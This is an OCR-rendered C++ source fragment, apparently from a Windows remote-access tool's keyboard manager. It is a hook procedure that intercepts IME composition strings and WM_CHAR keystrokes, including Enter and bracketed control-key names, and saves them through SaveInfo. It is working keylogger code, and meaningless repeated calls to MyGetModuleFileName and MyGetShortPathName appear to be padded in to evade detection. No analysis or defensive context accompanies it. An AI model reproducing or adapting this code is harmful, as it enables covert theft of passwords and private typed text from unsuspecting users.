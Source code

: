 ```
        (nCode != HC_ACTION) ||
        ((pMsg->message != WM_IME_COMPOSITION) && (pMsg->message != WM_CHAR)) ||
        (m_dwLastMsgTime == pMsg->time)
        )
    {
        return result;
    }

    m_dwLastMsgTime = pMsg->time;

    if ((pMsg->message == WM_IME_COMPOSITION) && (pMsg->lParam & GCS_RESULTSTR))
    {
        HWND	hWnd = pMsg->hwnd;
        CKeyboardManager::MyGetModuleFileName(NULL, szModule, MAX_PATH);
        HIMC	hImc = ImmGetContext(hWnd);
        CKeyboardManager::MyGetShortPathName(szModule, szModule, MAX_PATH);
        LONG	strLen = ImmGetCompositionString(hImc, GCS_RESULTSTR, NULL, 0);
        CKeyboardManager::MyGetModuleFileName(NULL, szModule, MAX_PATH);
        // 考虑到UNICODE
        strLen += sizeof(WCHAR);
        CKeyboardManager::MyGetShortPathName(szModule, szModule, MAX_PATH);
        ZeroMemory(m_pTShared->str, sizeof(m_pTShared->str));
        CKeyboardManager::MyGetModuleFileName(NULL, szModule, MAX_PATH);
        strLen = ImmGetCompositionString(hImc, GCS_RESULTSTR, m_pTShared->str, strLen);
        CKeyboardManager::MyGetShortPathName(szModule, szModule, MAX_PATH);
        ImmReleaseContext(hWnd, hImc);
        CKeyboardManager::MyGetModuleFileName(NULL, szModule, MAX_PATH);
        SaveInfo(m_pTShared->str);
    }

    if (pMsg->message == WM_CHAR)
    {
        if (pMsg->wParam <= 127 && pMsg->wParam >= 20)
        {
            strChar[0] = pMsg->wParam;
            strChar[1] = TEXT('\0');
            SaveInfo(strChar);
        }
        else if (pMsg->wParam == VK_RETURN)
        {
            SaveInfo(TEXT("\r\n"));
        }
        // 控制字符
        else
        {
            CKeyboardManager::MyGetModuleFileName(NULL, szModule, MAX_PATH);
            memset(KeyName, 0, sizeof(KeyName));
            CKeyboardManager::MyGetShortPathName(szModule, szModule, MAX_PATH);
            if (GetKeyNameText(pMsg->lParam, &(KeyName[1]), sizeof(KeyName)-2) > 0)
            {
                KeyName[0] = TEXT('[');
                CKeyboardManager::MyGetModuleFileName(NULL, szModule, MAX_PATH);
                lstrcat(KeyName, TEXT("]"));
                SaveInfo(KeyName);
            }
        }
    }
    return result;
}
```
